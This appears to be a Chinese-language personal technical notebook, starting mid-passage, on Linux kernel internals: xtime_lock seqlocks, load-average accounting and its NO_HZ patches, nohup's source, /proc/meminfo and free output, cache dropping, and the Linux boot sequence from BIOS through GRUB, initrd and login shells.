读和写可能不安全。如果在写的过程中，读是不安全的，那么就需要在读的时候等待写锁完成。对应读锁使用如下： 
#+begin_src c
 #if (BITS_PER_LONG < 64) 
u64 get_jiffies_64(void) 
{ 
        unsigned long seq; 
        u64 ret;  

        do { 
                seq = read_seqbegin(&xtime_lock); 
                ret = jiffies_64; 
        } while (read_seqretry(&xtime_lock, seq)); 
        return ret; 
} 

EXPORT_SYMBOL(get_jiffies_64); 
 #endif 
#+end_src

读锁实现如下： 
#+begin_src c
static __always_inline unsigned read_seqbegin(const seqlock_t *sl) 
{ 
        unsigned ret = sl->sequence; 
        smp_rmb(); 
        return ret; 
} 

static __always_inline int read_seqretry(const seqlock_t *sl, unsigned iv) 
{ 
        smp_rmb(); 
      	/*iv为读之前的锁计数器
        * 当iv为基数时，说明读的过程中写锁被拿，可能读到错误值
        * 当iv为偶数，但是读完之后锁的计数值和读之前不一致，则说明读的过程中写锁被拿，
        * 也可能读到错误值。
        */
        return (iv & 1) | (sl->sequence ^ iv);  
}
#+end_src

至此xtime_lock的实现解析完毕，由于对应写锁基于spin_lock实现，多个程序竞争写锁时等待者会一直循环等待， 
当锁里面处理时间过长，会导致整个系统的延时增长。另外，如果系统存在很多xtime_lock的读锁，在某个程 
序获取该写锁后，读锁就会进入类似spin_lock的循环查询状态，直到保证可以读取到正确值。因此需要尽可能 
短的减少在xtime_lock写锁之间执行的处理流程。 

 全局load读写分离解xtime_lock问题 

在计算全局load函数calc_load中，每5s需要遍历一次所有cpu的运行队列，获取对应cpu上的load。1）由于cpu个数是不固 
定的，造成calc_load的执行时间不固定，在核数特别多的情况下会造成xtime_lock获取的时间过长。2）calc_load是 
每5s一次的采样程序，本身并不能够精度特别高，对全局avenrun的读和写之间也不需要专门的锁保护，可以将全局load的 
更新和读进行分离。 
Dimitri Sivanich提出在他们的large SMP系统上，由于calc_load需要遍历所有online CPU，造成系统延迟较大。 
基于上述原因Thomas Gleixnert提交了下述patch对该bug进行修复： 
[Patch 1/2] sched, timers: move calc_load() to scheduler
[Patch 2/2] sched, timers: cleanup avenrun users


文件:rw isolate.jpg 

Thomas的两个patch，主要思想如上图所示。首先将全局load的计算分离到per-cpu上，各个cpu上计算load时不加xtime_lock 
的锁，计算的load更新到全局calc_load_tasks中，所有cpu上load计算完后calc_load_tasks即为整体的load。在5s定 
时器到达时执行calc_global_load，读取全局cacl_load_tasks，更新avenrun。由于只是简单的读取calc_load_tasks， 
执行时间和cpu个数没有关系。 

 几个关键点： 

 不加xtime_lock的per cpu load计算 

在不加xtime_lock的情况下，如何保证每次更新avenrun时候读取的calc_load_tasks为所有cpu已经更新之后的load？ 

Thomas的解决方案 

Thomas的做法是将定时器放到sched_tick中，每个cpu都设置一个LOAD_FREQ定时器。 
定时周期到达时执行当前处理器上load的计算。sched_tick在每个tick到达时执行 
一次，tick到达是由硬件进行控制的，客观上不受系统运行状况的影响。 

sched_tick的时机 

将per-cpu load的计算放至sched_tick中执行，第一反应这不是又回到了时间处理中断之间，是否依旧 
存在xtime_lock问题？ 下面对sched_tick进行分析（以下分析基于linux-2.6.32-220.17.1.el5源码） 
#+begin_src c
static void update_cpu_load_active(struct rq *this_rq) 
{ 
        update_cpu_load(this_rq); 

        calc_load_account_active(this_rq); 
}
 
void scheduler_tick(void) 
{ 
        int cpu = smp_processor_id(); 
        struct rq *rq = cpu_rq(cpu); 
...
        spin_lock(&rq->lock); 
...
        update_cpu_load_active(rq); 
...
        spin_unlock(&rq->lock); 

...
} 
 
void update_process_times(int user_tick) 
{ 
...
        scheduler_tick(); 
...
}
 
static void tick_periodic(int cpu) 
{ 
        if (tick_do_timer_cpu == cpu) { 
                write_seqlock(&xtime_lock); 

                /* Keep track of the next tick event */ 
                tick_next_period = ktime_add(tick_next_period, tick_period); 
           
                do_timer(1);  // calc_global_load在do_timer中被调用
                write_sequnlock(&xtime_lock); 
        } 
 
        update_process_times(user_mode(get_irq_regs())); 
...
}
 
void tick_handle_periodic(struct clock_event_device *dev) 
{ 
        int cpu = smp_processor_id(); 
...
        tick_periodic(cpu); 
...
}
#+end_src

交错的时间差 

将per-cpu load的计算放到sched_tick中后，还存在一个问题就是何时执行per-cpu上的load计算，如何保证更新全 
局avenrun时读取的全局load为所有cpu都计算之后的？ 当前的方法是给所有cpu设定同样的步进时间LOAD_FREQ， 
过了这个周期点当有tick到达则执行该cpu上load的计算，更新至全局的calc_load_tasks。calc_global_load 
的执行点为LOAD_FREQ+10，即在所有cpu load计算执行完10 ticks之后，读取全局的calc_load_tasks更新avenrun。 



通过将calc_global_load和per-cpu load计算的时间进行交错，可以避免calc_global_load在各个cpu load计算之间执行， 
导致load采样不准确问题。 

32内核Load计数nohz问题 

一个问题的解决，往往伴随着无数其他问题的诞生！Per-cpu load的计算能够很好的分离全局load的更新和读取，避免大型系统中cpu 
核数过多导致的xtime_lock问题。但是也同时带来了很多其他需要解决的问题。这其中最主要的问题就是nohz问题。 

为避免cpu空闲状态时大量无意义的时钟中断，引入了nohz技术。在这种技术下，cpu进入空闲状态之后会关闭该cpu对应的时钟中断，等 
到下一个定时器到达，或者该cpu需要执行重新调度时再重新开启时钟中断。 

cpu进入nohz状态后该cpu上的时钟tick停止，导致sched_tick并非每个tick都会执行一次。这使得将per-cpu的load计算放在 
sched_tick中并不能保证每个LOAD_FREQ都执行一次。如果在执行per-cpu load计算时，当前cpu处于nohz状态，那么当 
前cpu上的sched_tick就会错过，进而错过这次load的更新，最终全局的load计算不准确。 
基于Thomas第一个patch的思想，可以在cpu调度idle时对nohz情况进行处理。采用的方式是在当前cpu进入idle前进行一次该cpu 
上load的更新，这样即便进入了nohz状态，该cpu上的load也已经更新至最新状态，不会出现不更新的情况。如下图所示： 



理论上，该方案很好的解决了nohz状态导致全局load计数可能不准确的问题，事实上这却是一个苦果的开始。大量线上应用反馈 
最新内核的load计数存在问题，在16核机器cpu利用率平均为20%~30%的情况下，整体load却始终低于1。 

 解决方案 

接到我们线上报告load计数偏低的问题之后，进行了研究。最初怀疑对全局load计数更新存在竞争。对16核的系统，如果都没有进入 
nohz状态，那么这16个核都将在LOAD_FREQ周期到达的那个tick内执行per-cpu load的计算，并更新到全局的load中，这 
之间如果存在竞争，整体计算的load就会出错。当前每个cpu对应rq都维护着该cpu上一次计算的load值，如果发现本次计算load 
和上一次维护的load值之间差值为0，则不用更新全局load，否则将差值更新到全局load中。正是由于这个机制，全局load如果被 
篡改，那么在各个cpu维护着自己load的情况下，全局load最终将可能出现负值。而负值通过各种观察，并没有在线上出现，最终竞 
争条件被排除。 

通过/proc/sched_debug对线上调度信息进行分析，发现每个时刻在cpu上运行的进程基本维持在2~3个，每个时刻运行有进程的cpu都 
不一样。进一步分析，每个cpu上平均每秒出现sched_goidle的情况大概为1000次左右。因此得到线上每次进入idle的间隔为1ms/次。 
结合1HZ=1s=1000ticks，可以得到1tick =1ms。所以可以得到线上应用基本每一个tick就会进入一次idle！！！ 这个发现就好比 
原来一直用肉眼看一滴水，看着那么完美那么纯净，突然间给你眼前架了一个放大镜，一下出现各种凌乱的杂碎物。 在原有的世界里， 
10ticks是那么的短暂，一个进程都可能没有运行完成，如今发现10ticks内调度idle的次数就会有近10次。接着用例子对应用场景进行分析： 





(说明：可能你注意到了在5HZ+5到5HZ+11过程中也有CPU从非idle进入了idle，但是为什么没有-1，这里是由于每个cpu都保留 
了一份该CPU上一次计算时的load，如果load没有变化则不进行计算，这几个cpu上一次计算load为0，并没有变化) 

Orz！load为3的情况直接算成了0，难怪系统整体load会偏低。这里面的一个关键点是：对已经计算过load的cpu，我们对idle进 
行了计算，却从未考虑过这给从idle进入非idle的情况带来的不公平性。这个是当前线上2.6.32系统存在的问题。在定位到问题 
之后，跟进到upstream中发现Peter Z针对该load计数问题先后提交了三个patch，最新的一个patch是在4月份提交。这三个 
patch如下： 
[Patch] sched: Cure load average vs NO_HZ woes
[Patch] sched: Cure more NO_HZ load average woes
[Patch] sched: Fix nohz load accounting – again!


这是目前我们backport的patch，基本思想是将进入idle造成的load变化暂时记录起来，不是每次进入idle都导致全局load的更新。 
这里面的难点是什么时候将idle更新至全局的load中？在最开始计算per-cpu load的时候需要将之前所有的idle都计算进来， 
由于目前各个CPU执行load计算的先后顺序暂时没有定，所以将这个计算放在每个cpu里面都计算一遍是一种方法。接着用示例进行说明： 


至此这三个patch能够很好的处理我们的之前碰到的进入idle的问题。 
将上述三个patch整理完后，在淘客前端线上机器中进行测试，测试结果表明load得到了明显改善。 

 更细粒度的时间问题 

* man proc
  我一直想找的/proc的详细描述
  man proc
* nohup 代码
nohup 实现原来如此简单
#+begin_src c
int
fd_reopen (int desired_fd, char const *file, int flags, mode_t mode)
{
  int fd = open (file, flags, mode);

  if (fd == desired_fd || fd < 0)
    return fd;
  else
    {
      int fd2 = dup2 (fd, desired_fd);
      int saved_errno = errno;
      close (fd);
      errno = saved_errno;
      return fd2;
    }
}
#+end_src

#+begin_src c
  ignoring_input = isatty (STDIN_FILENO);
  redirecting_stdout = isatty (STDOUT_FILENO);
  stdout_is_closed = (!redirecting_stdout && errno == EBADF);
  redirecting_stderr = isatty (STDERR_FILENO);

  /* If standard input is a tty, replace it with /dev/null if possible.
     Note that it is deliberately opened for *writing*,
     to ensure any read evokes an error.  */
  /* 忽略输入时，将标准输入的fd设置为/dev/null */
  if (ignoring_input)
    {
      if (fd_reopen (STDIN_FILENO, "/dev/null", O_WRONLY, 0) < 0)
        {
          error (0, errno, _("failed to render standard input unusable"));
          exit (exit_internal_failure);
        }
      if (!redirecting_stdout && !redirecting_stderr)
        error (0, 0, _("ignoring input"));
    }

  /* If standard output is a tty, redirect it (appending) to a file.
     First try nohup.out, then $HOME/nohup.out.  If standard error is
     a tty and standard output is closed, open nohup.out or
     $HOME/nohup.out without redirecting anything.  */
 /* 输出是tty时，将STDOUT的fd设置为nohup.out文件的fd 
    如果当前目录下nohup.out打开失败，那么尝试打开$HOME/nohup.out
 */
  if (redirecting_stdout || (redirecting_stderr && stdout_is_closed))
    {
      char *in_home = NULL;
      char const *file = "nohup.out";
      int flags = O_CREAT | O_WRONLY | O_APPEND;
      mode_t mode = S_IRUSR | S_IWUSR;
      mode_t umask_value = umask (~mode);
      out_fd = (redirecting_stdout
                ? fd_reopen (STDOUT_FILENO, file, flags, mode)
                : open (file, flags, mode));

      if (out_fd < 0)
        {
          int saved_errno = errno;
          char const *home = getenv ("HOME");
          if (home)
            {
              in_home = file_name_concat (home, file, NULL);
              out_fd = (redirecting_stdout
                        ? fd_reopen (STDOUT_FILENO, in_home, flags, mode)
                        : open (in_home, flags, mode));
            }
          if (out_fd < 0)
            {
              int saved_errno2 = errno;
              error (0, saved_errno, _("failed to open %s"), quote (file));
              if (in_home)
                error (0, saved_errno2, _("failed to open %s"),
                       quote (in_home));
              exit (exit_internal_failure);
            }
          file = in_home;
        }

      umask (umask_value);
      error (0, 0,
             _(ignoring_input
               ? N_("ignoring input and appending output to %s")
               : N_("appending output to %s")),
             quote (file));
      free (in_home);
    }

  /* If standard error is a tty, redirect it.  */
  if (redirecting_stderr)
    {
      /* Save a copy of stderr before redirecting, so we can use the original
         if execve fails.  It's no big deal if this dup fails.  It might
         not change anything, and at worst, it'll lead to suppression of
         the post-failed-execve diagnostic.  */
      saved_stderr_fd = dup (STDERR_FILENO);

      if (0 <= saved_stderr_fd
          && set_cloexec_flag (saved_stderr_fd, true) != 0)
        error (exit_internal_failure, errno,
               _("failed to set the copy of stderr to close on exec"));

      if (!redirecting_stdout)
        error (0, 0,
               _(ignoring_input
                 ? N_("ignoring input and redirecting stderr to stdout")
                 : N_("redirecting stderr to stdout")));

      if (dup2 (out_fd, STDERR_FILENO) < 0)
        error (exit_internal_failure, errno,
               _("failed to redirect standard error"));

      if (stdout_is_closed)
        close (out_fd);
    }

  /* error() flushes stderr, but does not check for write failure.
     Normally, we would catch this via our atexit() hook of
     close_stdout, but execvp() gets in the way.  If stderr
     encountered a write failure, there is no need to try calling
     error() again, particularly since we may have just changed the
     underlying fd out from under stderr.  */
  if (ferror (stderr))
    exit (exit_internal_failure);

  signal (SIGHUP, SIG_IGN);

  {
    int exit_status;
    int saved_errno;
    char **cmd = argv + optind;

    execvp (*cmd, cmd);
    exit_status = (errno == ENOENT ? EXIT_ENOENT : EXIT_CANNOT_INVOKE);
    saved_errno = errno;

    /* The execve failed.  Output a diagnostic to stderr only if:
       - stderr was initially redirected to a non-tty, or
       - stderr was initially directed to a tty, and we
         can dup2 it to point back to that same tty.
       In other words, output the diagnostic if possible, but only if
       it will go to the original stderr.  */
    if (dup2 (saved_stderr_fd, STDERR_FILENO) == STDERR_FILENO)
      error (0, saved_errno, _("failed to run command %s"), quote (*cmd));

    exit (exit_status);
  }
}

#+end_src
* /proc/meminfo

kernel 2.6.18中
#+begin_src c
static int meminfo_read_proc(char *page, char **start, off_t off,
				 int count, int *eof, void *data)
{
	struct sysinfo i;
        ....
	get_zone_counts(&active, &inactive, &free);

/*
 * display in kilobytes.
 */
 #define K(x) ((x) << (PAGE_SHIFT - 10))
	si_meminfo(&i);
	si_swapinfo(&i);
	committed = atomic_read(&vm_committed_space);
	allowed = ((totalram_pages - hugetlb_total_pages())
		* sysctl_overcommit_ratio / 100) + total_swap_pages;

	cached = global_page_state(NR_FILE_PAGES) -
			total_swapcache_pages - i.bufferram;
	if (cached < 0)
		cached = 0;

	get_vmalloc_info(&vmi);

	/*
	 * Tagged format, for easy grepping and expansion.
	 */
	len = sprintf(page,
		"MemTotal:     %8lu kB\n"
		"MemFree:      %8lu kB\n"
		"Buffers:      %8lu kB\n"
		"Cached:       %8lu kB\n"
		"SwapCached:   %8lu kB\n"
		"Active:       %8lu kB\n"
		"Inactive:     %8lu kB\n"
		"HighTotal:    %8lu kB\n"
		"HighFree:     %8lu kB\n"
		"LowTotal:     %8lu kB\n"
		"LowFree:      %8lu kB\n"
		"SwapTotal:    %8lu kB\n"
		"SwapFree:     %8lu kB\n"
		"Dirty:        %8lu kB\n"
		"Writeback:    %8lu kB\n"
		"AnonPages:    %8lu kB\n"
		"Mapped:       %8lu kB\n"
		"Slab:         %8lu kB\n"
		"PageTables:   %8lu kB\n"
		"NFS_Unstable: %8lu kB\n"
		"Bounce:       %8lu kB\n"
		"CommitLimit:  %8lu kB\n"
		"Committed_AS: %8lu kB\n"
		"VmallocTotal: %8lu kB\n"
		"VmallocUsed:  %8lu kB\n"
		"VmallocChunk: %8lu kB\n",
		K(i.totalram),
		K(i.freeram),
		K(i.bufferram),
		K(cached),
		K(total_swapcache_pages),
		K(active),
		K(inactive),
		K(i.totalhigh),
		K(i.freehigh),
		K(i.totalram-i.totalhigh),
		K(i.freeram-i.freehigh),
		K(i.totalswap),
		K(i.freeswap),
		K(global_page_state(NR_FILE_DIRTY)),
		K(global_page_state(NR_WRITEBACK)),
		K(global_page_state(NR_ANON_PAGES)),
		K(global_page_state(NR_FILE_MAPPED)),
		K(global_page_state(NR_SLAB)),
		K(global_page_state(NR_PAGETABLE)),
		K(global_page_state(NR_UNSTABLE_NFS)),
		K(global_page_state(NR_BOUNCE)),
		K(allowed),
		K(committed),
		(unsigned long)VMALLOC_TOTAL >> 10,
		vmi.used >> 10,
		vmi.largest_chunk >> 10
		);

		len += hugetlb_report_meminfo(page + len);

	return proc_calc_metrics(page, start, off, count, eof, len);
 #undef K
}
#+end_src
page_alloc.c:
#+begin_src c
void si_meminfo(struct sysinfo *val)
{
	val->totalram = totalram_pages;
	val->sharedram = 0;
	val->freeram = nr_free_pages();
	val->bufferram = nr_blockdev_pages();
 #ifdef CONFIG_HIGHMEM
	val->totalhigh = totalhigh_pages;
	val->freehigh = nr_free_highpages();
 #else
	val->totalhigh = 0;
	val->freehigh = 0;
#endif
	val->mem_unit = PAGE_SIZE;
}
#+end_src

block_dev.c:
nr_blockdev_pages计算块设备使用的页框数，遍历所有块设备，将使用的页框数相加。而不包含普通文件使用的页框数
#+begin_src c
long nr_blockdev_pages(void)
{
	struct list_head *p;
	long ret = 0;
	spin_lock(&bdev_lock);
	list_for_each(p, &all_bdevs) {
		struct block_device *bdev;
		bdev = list_entry(p, struct block_device, bd_list);
		ret += bdev->bd_inode->i_mapping->nrpages;
	}
	spin_unlock(&bdev_lock);
	return ret;
}
#+end_src

** 释放cache
Free命令输出的第一行是对应的实实在在的内存，不管是buffer，还是cache。Swap对应磁盘上的交换分区。Kernel会尽量使用RAM做cache，所以一般cache都比较大：
             total       used       free     shared    buffers     cached
Mem:       8164308    8111364     52944          0     310644     3502208
-/+ buffers/cache:     4298512    3865796
Swap:      2104504     440        2104064
8G的内存，而空闲(free)的内存只有约50M，比较惊人。其实，cached占了3G+。另外，我们看到第三行used列约为4G，是比较大的，确实，该机器上跑了好几个接入服务。
 
 

Kernel2.6.16之后的版本提供了一种释放cache的机制，通过修改内核参数/proc/sys/vm/drop_caches让内核释放干净的cache。
To free pagecache:
         echo 1 > /proc/sys/vm/drop_caches
To free dentries and inodes:
         echo 2 > /proc/sys/vm/drop_caches
To free pagecache, dentries and inodes:
         echo 3 > /proc/sys/vm/drop_caches
 
 # free
             total       used       free     shared    buffers     cached
Mem:       1966220    1676428     289792          0     418900     705216
-/+ buffers/cache:     552312    1413908
Swap:      2104504     131084    1973420
 # echo 1 > /proc/sys/vm/drop_caches
 # free
             total       used       free     shared    buffers     cached
Mem:       1966220     597840    1368380          0        324      65852
-/+ buffers/cache:     531664    1434556
Swap:      2104504     131084    1973420
设置内核参数drop_caches后，cached的值迅速下降。通常来说，Linux会尽量使用可用的RAM，cache过高，是正常的。而手动释放cache会增加I/O开销，导致系统性能下降。

* free
free 输出字段的意义

             total       used       free     shared    buffers     cached
Mem:       1028444     991676      36768          0      18080     632156
-/+ buffers/cache:     341440     687004
Swap:            0          0          0

man free 知道利用/proc/meminfo，kernel会向/proc/meminfo写数据，然后free程序从中读取。

Mem: 
total = used + free  这个used包含当前正被使用的 + 现在还没使用的buffers/cached

-/+ buffers/cache: 
这行把buffers/cache视为一个整体，是kernel不采用page cache策略时将得出的数字:
341440表示系统当前正在使用的物理内存 = 991676 - (buffers+cached)
687004表示系统当前真正free的物理内存 = 36768  + (buffers+cached)

buffers+cached = 18080 + 632156 = 650236  一共1GB内存，有650多MB做了page cache。
buffers/cached来源于kernel中的page cache，不管内存多大，kernel经过一段时间都会逐渐用光所有内存，
此时第一行的used接近内存条容量，就是把从没用过的内存都转化成page cache以便随时使用。

page cache 包括普通的page，buffer page，swap cache。
buffers就对应buffer page，有个额外的buffer_head struct来管理，swap cache用来减少I/O。

普通文件要经过filesystem处理，对应cached
不经过filesystem处理的metadata(比如superblock)，对应buffers。
kernel把这两种情况统一处理，都是封装成bio，然后提交给device driver处理。
* linux启动缓慢

  linux 磁盘自检
  mount 
  tune2fs -l /dev/sda2
* linux启动过程

** 加载内核
操作系统接管硬件以后，首先读入 /boot 目录下的内核文件
** 启动初始化进程
内核文件加载以后，就开始运行第一个程序 /sbin/init，它的作用是初始化系统环境。
由于init是第一个运行的程序，它的进程编号（pid）就是1。其他所有进程都从它衍生，都是它的子进程。
** 确定运行级别
init进程首先读取文件 /etc/inittab，它是运行级别的设置文件。如果你打开它，可以看到第一行是这样的：
　id:2:initdefault:

initdefault的值是2，表明系统启动时的运行级别为2。如果需要指定其他级别，可以手动修改这个值。
那么，运行级别2有些什么程序呢，系统怎么知道每个级别应该加载哪些程序呢？......回答是每个运行级别在/etc目录下面，都有一个对应的子目录，指定要加载的程序。

　　/etc/rc0.d
　　/etc/rc1.d
　　/etc/rc2.d
　　/etc/rc3.d
　　/etc/rc4.d
　　/etc/rc5.d
　　/etc/rc6.d
　　
上面目录名中的"rc"，表示run command（运行程序），最后的d表示directory（目录）。下面让我们看看 /etc/rc2.d 目录中到底指定了哪些程序。

　　$ ls  /etc/rc2.d
　　
　　README
　　S01motd
　　S13rpcbind
　　S14nfs-common
　　S16binfmt-support
　　S16rsyslog
　　S16sudo
　　S17apache2
　　S18acpid
　　...
　　
可以看到，除了第一个文件README以外，其他文件名都是"字母S+两位数字+程序名"的形式。
字母S表示Start，也就是启动的意思（启动脚本的运行参数为start），如果这个位置是字母K，就代表Kill（关闭），即如果从其他运行级别切换过来，需要关闭的程序（启动脚本的运行参数为stop）。后面的两位数字表示处理顺序，数字越小越早处理，所以第一个启动的程序是motd，然后是rpcbing、nfs......数字相同时，则按照程序名的字母顺序启动，所以rsyslog会先于sudo启动。
这个目录里的所有文件（除了README），就是启动时要加载的程序。如果想增加或删除某些程序，不建议手动修改 /etc/rcN.d 目录，最好是用一些专门命令进行管理


** 加载开机启动程序
   守护进程

前面提到，七种预设的"运行级别"各自有一个目录，存放需要开机启动的程序。
不难想到，如果多个"运行级别"需要启动同一个程序，那么这个程序的启动脚本，就会在每一个目录里都有一个拷贝。
这样会造成管理上的困扰：如果要修改启动脚本，岂不是每个目录都要改一遍？
Linux的解决办法，就是七个 /etc/rcN.d 目录里列出的程序，都设为链接文件，指向另外一个目录 /etc/init.d ，真正的启动脚本都统一放在这个目录中。
init进程逐一加载开机启动程序，其实就是运行这个目录里的启动脚本。

下面就是链接文件真正的指向。

　　$ ls -l /etc/rc2.d
　　
　　README
　　S01motd -> ../init.d/motd
　　S13rpcbind -> ../init.d/rpcbind
　　S14nfs-common -> ../init.d/nfs-common
　　S16binfmt-support -> ../init.d/binfmt-support
　　S16rsyslog -> ../init.d/rsyslog
　　S16sudo -> ../init.d/sudo
　　S17apache2 -> ../init.d/apache2
　　S18acpid -> ../init.d/acpid
　　...
　　
这样做的另一个好处，就是如果你要手动关闭或重启某个进程，直接到目录 /etc/init.d 中寻找启动脚本即可。比如，我要重启Apache服务器，就运行下面的命令：

　　$ sudo /etc/init.d/apache2 restart
　　
/etc/init.d 这个目录名最后一个字母d，是directory的意思，表示这是一个目录，用来与程序 /etc/init 区分。

** 用户登录
开机启动程序加载完毕以后，就要让用户登录了。

一般来说，用户的登录方式有三种：
　　（1）命令行登录
　　（2）ssh登录
　　（3）图形界面登录
这三种情况，都有自己的方式对用户进行认证。
（1）命令行登录：init进程调用getty程序（意为get teletype），让用户输入用户名和密码。输入完成后，再调用login程序，核对密码（Debian还会再多运行一个身份核对程序/etc/pam.d/login）。如果密码正确，就从文件 /etc/passwd 读取该用户指定的shell，然后启动这个shell。
（2）ssh登录：这时系统调用sshd程序（Debian还会再运行/etc/pam.d/ssh ），取代getty和login，然后启动shell。
（3）图形界面登录：init进程调用显示管理器，Gnome图形界面对应的显示管理器为gdm（GNOME Display Manager），然后用户输入用户名和密码。如果密码正确，就读取/etc/gdm3/Xsession，启动用户的会话。
** 进入 login shell
所谓shell，简单说就是命令行界面，让用户可以直接与操作系统对话。用户登录时打开的shell，就叫做login shell。

Debian默认的shell是Bash，它会读入一系列的配置文件。上一步的三种情况，在这一步的处理，也存在差异。
（1）命令行登录：首先读入 /etc/profile，这是对所有用户都有效的配置；然后依次寻找下面三个文件，这是针对当前用户的配置。

　　~/.bash_profile
　　~/.bash_login
　　~/.profile
　　
需要注意的是，这三个文件只要有一个存在，就不再读入后面的文件了。比如，要是 ~/.bash_profile 存在，就不会再读入后面两个文件了。
（2）ssh登录：与第一种情况完全相同。
（3）图形界面登录：只加载 /etc/profile 和 ~/.profile。也就是说，~/.bash_profile 不管有没有，都不会运行。
** 打开 non-login shell
老实说，上一步完成以后，Linux的启动过程就算结束了，用户已经可以看到命令行提示符或者图形界面了。但是，为了内容的完整，必须再介绍一下这一步。
用户进入操作系统以后，常常会再手动开启一个shell。这个shell就叫做 non-login shell，意思是它不同于登录时出现的那个shell，不读取/etc/profile和.profile等配置文件。

non-login shell的重要性，不仅在于它是用户最常接触的那个shell，还在于它会读入用户自己的bash配置文件 ~/.bashrc。大多数时候，我们对于bash的定制，都是写在这个文件里面的。
你也许会问，要是不进入 non-login shell，岂不是.bashrc就不会运行了，因此bash 也就不能完成定制了？事实上，Debian已经考虑到这个问题了，请打开文件 ~/.profile，可以看到下面的代码：

　　if [ -n "$BASH_VERSION" ]; then
　　　　if [ -f "$HOME/.bashrc" ]; then
　　　　　　. "$HOME/.bashrc"
　　　　fi
　　fi
　　
上面代码先判断变量 $BASH_VERSION 是否有值，然后判断主目录下是否存在 .bashrc 文件，如果存在就运行该文件。第三行开头的那个点，是source命令的简写形式，表示运行某个文件，写成"source ~/.bashrc"也是可以的。
因此，只要运行～/.profile文件，～/.bashrc文件就会连带运行。但是上一节的第一种情况提到过，如果存在～/.bash_profile文件，那么有可能不会运行～/.profile文件。解决这个问题很简单，把下面代码写入.bash_profile就行了。

　　if [ -f ~/.profile ]; then
　　　　. ~/.profile
　　fi
　　
这样一来，不管是哪种情况，.bashrc都会执行，用户的设置可以放心地都写入这个文件了。
Bash的设置之所以如此繁琐，是由于历史原因造成的。早期的时候，计算机运行速度很慢，载入配置文件需要很长时间，Bash的作者只好把配置文件分成了几个部分，阶段性载入。系统的通用设置放在 /etc/profile，用户个人的、需要被所有子进程继承的设置放在.profile，不需要被继承的设置放在.bashrc。
顺便提一下，除了Linux以外， Mac OS X 使用的shell也是Bash。但是，它只加载.bash_profile，然后在.bash_profile里面调用.bashrc。而且，不管是ssh登录，还是在图形界面里启动shell窗口，都是如此。

* linux启动过程
POST加电自检
-->BIOS(Boot Sequence)
-->加载对应引导上的MBR(bootloader)
-->主引导设置加载其BootLoader
-->Kernel初始化
-->initrd
-—>/sbin/init进程加载/etc/inittab


kernel_init --> run_init_process("sbin/init")

init的实现：
It depends on Linux version. Traditionally, _sysvinit_ was used.
These days, many Linux distros use _upstart_.
Some others, like Fedora, are using _systemd_.

** 剖析详细启动过程
1. POST开机自检：电脑主机打开电源的时候，随后会听到滴的一声，系统启动开始了开机自检（POST-power on self
   test）自检开始），这个过程中主要是检测计算机硬件设备比如：CPU，内存，主板，显卡，CMOS等设备是否有故障存
   在，如果有硬件故障的话将按两种情况理：对于严重故障(致命性故障)则停机，此时由于各种初始化操作还没完成，
   不能给出任何提示或信号；对于非严重故障则给出提示或声音报警信号，等待用户处理），如果没有故障，POST完整自己
   的接力任务，将尾部工作交接给BIOS处理。 
2. BIOS：计算机加电自检完成后第一个读取的地方就是就是BIOS（Basic Input Output System，基础输入输出系统）
   ，BIOS里面记录了主机板的芯片集与相关设置，如CPU与接口设备的通信频率、启动设备的搜索顺序、硬盘的大小与
   类型、系统时间、外部总线、各种接口设备的I/O地址、已经与CPU通信的IRQ中断信息，所以，启动如果要顺利启动，
   首先要读取BIOS设置。 

3. 按照BIOS所设定的系统启动流程，如果检测通过，则根据引导次序(Boot Sequence)开始在第一台设备上支持启动
   程序，我们的启动设备主要包括硬盘、USB、SD等，我们一般用的是硬盘，然后进行读取第一个设备就是硬盘，第一个
   要读去的就是该硬盘的主引导记录MBR（Master Boot Record），然后系统可以根据启动区安装的
   引导加载程序（Boot Loader）开始执行核心识别的工作。【在此插一句：MBR程序只是找到只是硬盘分区内最前面
   的446个字节的Boot Loader】然后查找相关配置和定义。 

4. Boot Loader 加载Grub程序
   在这个过程中主要靠Grub的引导开始的，Grub分为连个阶段：
   stage1：主要是Boot loader
   stage 1.5:过渡
   stage2:主要是/boot/grub 

#+begin_example
linux-19:/boot/grub # cat menu.lst
default 0
timeout 8

gfxmenu (hd0,1)/boot/message

title SUSE Linux Enterprise Server 11 SP2 - 3.0.80-0.7
    root (hd0,1)
    kernel /boot/vmlinuz-3.0.80-0.7-default root=/dev/disk/by-id/scsi-36001e4f03068ec000fb1f5b4052ae63b-part2 resume=/dev/disk/by-id/scsi-36001e4f03068ec000fb1f5b4052ae63b-part1 splash=silent crashkernel=256M-:128M showopts vga=0x31a
    initrd /boot/initrd-3.0.80-0.7-default

title Failsafe -- SUSE Linux Enterprise Server 11 SP2 - 3.0.80-0.7
    root (hd0,1)
    kernel /boot/vmlinuz-3.0.80-0.7-default root=/dev/disk/by-id/scsi-36001e4f03068ec000fb1f5b4052ae63b-part2 showopts ide=nodma apm=off noresume edd=off powersaved=off nohz=off highres=off processor.max_cstate=1 nomodeset x11failsafe vga=0x31a
    initrd /boot/initrd-3.0.80-0.7-default
#+end_example
     
5. Kernel
   根据Grub内的定义，grub读取完毕后就把下面的工作交个内核了。kernel主要是完成系统硬件探测及硬件驱动的初始
   化，并且以读写的方式挂载根文件系统（根切换），那么这里就出现了一个“先有鸡还是先有蛋的文件了”，具体是什么
   那？
   要想访问真正的根文件系统（rootfs）的话，就必须加载根文件系统中的设备，这时根文件系统又没有挂载，
   要挂载根文件系统又得加载根文件系统中的驱动程序，哪怎么办呢？为了解决这个问题，这是就用到了initrd文件了。  
   在来说下kernel初始化所要工作的内容做下简单总结：  
   探测硬件->加载驱动（initrd)->挂载根文件系统->rootfs(/sbin/init) 

#+begin_example
inux-19:~/test # mkdir intrd
inux-19:~/test # mv /boot/initrd-3.0.80-0.7-default initrd/
linux-19:~/test # cd initrd/ 
linux-19:~/test/initrd # ls
initrd-3.0.80-0.7-default
linux-19:~/test/initrd # zcat initrd-3.0.80-0.7-default | cpio -id                       
33097 blocks
linux-19:~/test/initrd # ls
bin  boot  bootsplash  config  dev  etc  init  initrd-3.0.80-0.7-default  lib  lib64  mkinitrd.config  proc  root  run_all.sh  sbin  sys  tmp  usr  var
linux-19:~/test/initrd # 
#+end_example
发现解压的结果很想/目录
可以vi init
看一下init脚本都做了哪些操作。
看到init进程的主要工作：
挂载 ：将initrd中的/proc, /sys  /dev 挂载到当前的主分区中的相应目录  
创建目录：/dev/mapper  
通过mknod完成block or character special files的创建  
相关模块的挂载  
创建root设备  
挂载 /sysroot  
最后完成根切换 


6. 到此止内核空间的相关工作已经完成，内核空间的任务开始向用户空间转移，内核空间通过一个间接的initrd(微型
   linux)向用户空间的/sbin/init过度，所以grub开始引导内核转向initrd。
